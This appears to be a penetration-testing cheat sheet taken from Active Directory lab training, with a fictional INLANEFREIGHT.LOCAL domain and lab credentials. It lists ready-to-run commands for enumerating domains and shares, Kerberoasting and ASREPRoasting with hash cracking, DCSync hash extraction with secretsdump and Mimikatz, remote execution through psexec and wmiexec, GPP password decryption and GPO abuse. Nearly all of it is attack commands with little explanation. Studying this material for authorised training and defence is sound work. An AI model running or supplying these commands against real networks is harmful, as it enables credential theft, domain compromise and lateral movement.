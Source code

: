 ### **Enumerating Security Controls**
1. Checking the Status of Defender with Get-MpComputerStatus: `Get-MpComputerStatus`
2. Using Get-AppLockerPolicy cmdlet: `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`
3. PowerShell Constrained Language Mode: `$ExecutionContext.SessionState.LanguageMode`
4. Using Find-LAPSDelegatedGroups: `Find-LAPSDelegatedGroups`
5. Using Find-AdmPwdExtendedRights: `Find-AdmPwdExtendedRights`
6. Using Get-LAPSComputers: `Get-LAPSComputers`
### **Credentialed Enumeration - from Linux**
1. CME - Domain User Enumeration: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`
2. CME - Domain Group Enumeration: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`
3. CME - Logged On Users: `sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users`
4. CME Share Searching: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares`
5. The module spider_plus will dig through each readable share on the host and list all readable files: `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'` When completed, CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>.
6. SMBMap To Check Access: `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5`
7. Smbmap - Recursive List Of All Directories: `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only`
8. SMB NULL Session with rpcclient: `rpcclient -U "" -N 172.16.5.5`
9. To connect to a host with psexec.py, we need credentials for a user with local administrator privileges: `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 `
10. Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation: `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5 `
11. Windapsearch - Domain Admins: `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da`
12. Windapsearch - Privileged Users: `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU`
13. Executing BloodHound.py: `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all`
### **Credentialed Enumeration - from Windows**
1. Load ActiveDirectory Module: `Import-Module ActiveDirectory`
2. Get Domain Info: `Get-ADDomain`
3. Get-ADUser: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
4. Checking For Trust Relationships: `Get-ADTrust -Filter *`
5. Group Enumeration: `Get-ADGroup -Filter * | select name`
6. Detailed Group Info: `Get-ADGroup -Identity "Backup Operators"`
7. Group Membership: `Get-ADGroupMember -Identity "Backup Operators"`
8. Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment: `Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data`
9. SharpHound: `.\SharpHound.exe -c All --zipfilename ILFREIGHT`
## **Kerberoasting - from Linux**
1. Listing SPN Accounts with GetUserSPNs.py: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend`
2. Requesting all TGS Tickets: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request `
3. Requesting a Single TGS ticket: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev`
4. Saving the TGS Ticket to an Output File: `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs`
5. Cracking the Ticket Offline with Hashcat: `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt`
## **Kerberoasting - from Windows**
#### **Kerberoasting - Semi Manual method**
1. Enumerating SPNs with setspn.exe: `setspn.exe -Q */*`
2. Targeting a Single User:
    1. `Add-Type -AssemblyName System.IdentityModel`
    2. `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`
3. Retrieving All Tickets Using setspn.exe: `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
4. Extracting Tickets from Memory with Mimikatz:
    1. `mimikatz # base64 /out:true`
    2. `mimikatz # kerberos::list /export`
5. Preparing the Base64 Blob for Cracking: `echo "<base64 blob>" |  tr -d \\n`
6. Placing the Output into a File as .kirbi: `cat encoded_file | base64 -d > sqldev.kirbi`
7. Extracting the Kerberos Ticket using kirbi2john.py: `python2.7 kirbi2john.py sqldev.kirbi`
8. Modifiying crack_file for Hashcat: `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`
9. Cracking the Hash with Hashcat: `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt`
#### **Kerberoasting - Automated / Tool Based Route**
1. Using PowerView to Extract TGS Tickets: `Get-DomainUser * -spn | select samaccountname`
2. Using PowerView to Target a Specific User: `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat`
3. Exporting All Tickets to a CSV File: `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation`
4. Viewing the Contents of the .CSV File: `cat .\ilfreight_tgs.csv`
#### **Kerberoasting with Rubeus**
1. Using the /stats Flag: `.\Rubeus.exe kerberoast /stats`
2. Using the /nowrap Flag: `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap`
3. creating an SPN account named testspn and using Rubeus to Kerberoast this specific user to test this out: `.\Rubeus.exe kerberoast /user:testspn /nowrap`
4. Checking with PowerView: `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes`
5. Use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket: `.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap`
## **DCSync**
1. Using Get-DomainUser to View user Group Membership: `Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl`
2. Using Get-ObjectAcl to Check adunn's Replication Rights:
    1.  `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"`
    2. `Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl`
3. Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py: `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5`
4. Enumerating Further using Get-ADUser: `Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl`
5. Checking for Reversible Encryption Option using Get-DomainUser: `Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontro`
6. Using runas.exe: `runas /netonly /user:INLANEFREIGHT\adunn powershell`
7. Performing the Attack with Mimikatz:
    1. `.\mimikatz.exe`
    2. `privilege::debug`
    3. `lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`
    ### **Password in Description Field**
    1. Finding Passwords in the Description Field using Get-Domain User: `Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}`
    2. Checking for PASSWD_NOTREQD Setting using Get-DomainUser: `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol`
    3. Credentials in SMB Shares and SYSVOL Scripts: 
        1. Discovering an Interesting Script: `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`
        2. Finding a Password in the Script: `cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs`
    4. Group Policy Preferences (GPP) Passwords:
        1. Locating & Retrieving GPP Passwords with CrackMapExec: `crackmapexec smb -L | grep gpp`
        2. Using CrackMapExec's gpp_autologin Module: `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`
        3. Decrypting the Password with gpp-decrypt: `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE`
## **ASREPRoasting**
1. Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser: `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`
2. Retrieving AS-REP in Proper Format using Rubeus: `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`
3. Cracking the Hash Offline with Hashcat: `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt `
4. Retrieving the AS-REP Using Kerbrute: `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`
5. Hunting for Users with Kerberoast Pre-auth Not Required: `GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`
## **Group Policy Object (GPO) Abuse**
1. Enumerating GPO Names with PowerView: `Get-DomainGPO |select displayname`
2. Enumerating GPO Names with a Built-In Cmdlet: `Get-GPO -All | Select DisplayName`
3. Enumerating Domain User GPO Rights:
    1. `$sid=Convert-NameToSid "Domain Users"`
    2. `Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}`
4. Converting GPO GUID to Name: `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532`